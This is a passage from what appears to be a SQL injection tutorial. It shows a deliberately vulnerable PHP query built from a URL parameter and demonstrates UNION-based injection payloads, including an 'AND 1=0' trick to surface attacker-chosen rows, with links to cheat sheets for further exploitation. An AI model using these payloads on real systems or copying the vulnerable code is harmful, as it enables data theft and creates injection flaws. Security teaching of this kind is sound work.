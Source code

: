 ### JUST ONE ROW

What we can do if the application prints out just one record?
Our `UNION` result will be stripped out.

```php
  $sql = "SELECT id, title, content FROM pages WHERE id = '" . $_GET['id'] . "' LIMIT 1";
  $result = $conn->query($sql);
  $row = $result->fetch_array();
  print_r($row);
```

Using `$_GET[id] = "' UNION ALL SELECT 1, 2, 3 FROM users -- -"`, the query produced will be:
```
  SELECT id, title, content FROM pages WHERE id = '1' UNION ALL SELECT 1, 2, 3 FROM users -- - LIMIT 1'
```

We will get:

| id | title | content |
| ---- | ---- | ---- |
| 1 | Titolo News | Contenuto News |

We have to add a condition that always makes the WHERE clause false, before our UNION.

Using `$_GET[id] = "'AND 1=0 UNION ALL SELECT 1, 2, 3 FROM users -- -"`, the query produced will be:
```
  SELECT id, title, content FROM pages WHERE id = '1' AND 1=0
  UNION ALL
  SELECT 1, 2, 3 FROM users -- - LIMIT 1'
```

We will get:

| id | title | content |
| ---- | ---- | ---- |
| 1 | 2 | 3 |


## CHEATSHEET (to weaponize)

We have just learned how to get other data using `UNION` exploiting an SQL Injection.
But how can we discover if there are some other tables? What are the names of the columns? We are DBA?

The cheatsheets come in handy:

MySQL: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

MSSQL: http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

ORACLE: http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet

POSTGRES: http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet
